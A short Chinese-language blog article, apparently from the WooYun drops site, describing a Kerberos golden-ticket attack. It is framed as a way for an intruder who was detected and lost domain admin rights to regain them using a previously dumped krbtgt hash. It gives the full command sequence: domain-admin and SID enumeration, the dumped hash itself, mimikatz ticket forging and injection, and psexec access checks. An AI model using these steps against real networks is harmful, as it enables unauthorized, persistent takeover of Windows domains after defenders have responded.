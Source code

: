 # 域渗透的金之钥匙

0x00 废话连篇
=====

最近几年很少搞内网渗透了，这几年发展的快啊，看了A牛翻译的`<<Fireeye Mandiant 2014 安全报告 Part1>>`，发现趋势都是powershell脚本化了。想当年遇到的域控都是windows 2003的，找朋友要些vbscript脚本自动化，然后那啥那啥的。现在搞域除了前段时间出的MS14068，还有龙哥翻译的（[http://drops.wooyun.org/papers/576](http://drops.wooyun.org/papers/576)）,不知道还有什么新方法，心中还有激情，如果想交流的朋友，可以加我聊聊。

0x01 金之钥匙
=====

我原来发过一个微薄说

![](http://drops.javaweb.org/uploads/images/305cbf0c27e3d50a65b60e963415df52a4376df4.jpg)

这就是我说的金之钥匙，利用这个的条件是你在原来搞定域控的时候，已经导出过域用户的HASH，尤其是krbtgt 这个用户的。但是在你在内网干其他事情的时候，活儿不细，被人家发现了，你拥有的域管理员权限掉了，你现在还有一个普通的域用户权限，管理员做加固的时候又忘记修改krbtgt密码了（很常见），我们还是能重新回来，步骤如下：

要重新拿回域管理员权限，首先要先知道域内的管理员有谁

`C:\Users\hydra>net group "domain admins" /domain`

我这里的实验环境，通过截图可以看到域管理员是administrator

我还要知道域SID是啥

`C:\Users\hydra>whoami /user`

我的域SID是`S-1-5-21-3883552807-251258116-2724407435`

还有最重要的krbtgt用户的ntlm哈希，我原来导出的是

krbtgt(current-disabled):502:aad3b435b51404eeaad3b435b51404ee:**6a8e501fabcf264c70 ef3316c6aab7dc:::**

![](http://drops.javaweb.org/uploads/images/302f47d393a0bdf8c19de9a4f0adbd38a07af810.jpg)

然后该用神器mimikatz出场了，依次执行

```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /admin:Administrator /domain:pentstlab.com /sid:S-1-5-21-3883552807-251258116-2724407435 /krbtgt:6a8e501fabcf264c70ef3316c6aab7dc /ticket:Administrator.kiribi
mimikatz # kerberos::ptt Administrator.kiribi
mimikatz # kerberos::tgt

```

![](http://drops.javaweb.org/uploads/images/c717ecc8dcecd053f06130ce19122117f9763b0f.jpg)

到现在，我们又重新拥有域管理员权限了，可以验证下

```
E:\>net use \\WIN-0DKN2AS0T2G\c$
E:\>psexec.exe \\WIN-0DKN2AS0T2G cmd

```

![](http://drops.javaweb.org/uploads/images/9bc064b3e5196a595f975f8f57a7f1c2c88dbda9.jpg)

0x02 后话闲扯
=====

呃，感觉这个方法比[http://drops.wooyun.org/tips/9297](http://drops.wooyun.org/tips/9297)这个方便些，文章写了好久了，一直凑不出更多的字数，就没发。。嗯。。。懒了。。